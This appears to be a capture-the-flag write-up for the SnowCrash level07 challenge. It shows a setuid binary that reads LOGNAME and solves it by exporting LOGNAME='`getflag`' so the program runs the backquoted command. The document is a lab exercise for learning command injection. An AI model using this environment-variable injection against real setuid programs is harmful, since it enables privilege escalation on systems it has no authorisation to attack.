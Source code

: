 # Level07

## Research
--------------

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
[...]
```
The program level07 seems to get the environment variable LOGNAME. </br>

`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

## Solution
---------------

We can modify this variable to ```'`getflag`'``` so it will be taken as ``` `getflag` ``` in the env variable, and then level07 will execute what is in backquotes.</br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```bash
level07@SnowCrash:~$ export LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07
```
Gives the token.
